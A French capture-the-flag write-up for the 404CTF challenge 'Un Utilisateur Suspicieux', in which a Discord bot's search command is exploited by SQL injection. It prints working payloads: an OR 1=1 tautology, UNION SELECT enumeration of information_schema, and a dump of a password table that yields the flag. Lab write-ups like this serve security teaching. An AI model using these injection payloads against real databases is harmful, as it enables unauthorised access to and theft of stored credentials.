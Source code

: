 # Un Utilisateur Suspicieux [1/2]

On est invité à discuter avec un  bot discord :

`Je suis un gentil humain#0364
BOT`

il propose la commande `!aide` dès qu'on commence à lui parler :

```text
Commandes disponibles :
!chercher argument -> rechercher argument dans la base de données
!authentification motdepasse -> authentifiez vous pour accéder au mode privilégié
!drapeau -> obtenez un mystérieux drapeau
```

Quand on utilise `!chercher` on remarque que lorsqu'on commence un mot avec `"`, la commande ne retourne rien .

Ceci peut nous fait penser à une injection SQL. Avec un peu de recherches on trouve avec :

```sql
!chercher " OR 1=1 -- -
```

l'ensemble de la base de données des réponses.

---

## Enumération

on cherche alors l'architecture de la database :

```sql
!chercher " union select schema_name from information_schema.schemata-- -
```

Ce qui donne deux bases de données : `test` qui est vide et `data` qui nous interresse.

```sql
!chercher cn" union select table_name from information_schema.tables where table_schema='data' -- -
```

```text
Results:
Result #1:
>Privileged_users
Result #2:
>data
Result #3:
>password
```

il y a donc une table `password`...

```sql
!chercher cn" union select column_name from information_schema.columns where table_name='password'-- -
```

...et une colonne `password`

---

## Exploitation

```sql
!chercher cn" union select password from data.password-- -
```

```text
Results:
Result #1:
404CTF{D1sc0rd_&_injection_SQL}
```

Ceci nous donne le flag :
>404CTF{D1sc0rd_&_injection_SQL}
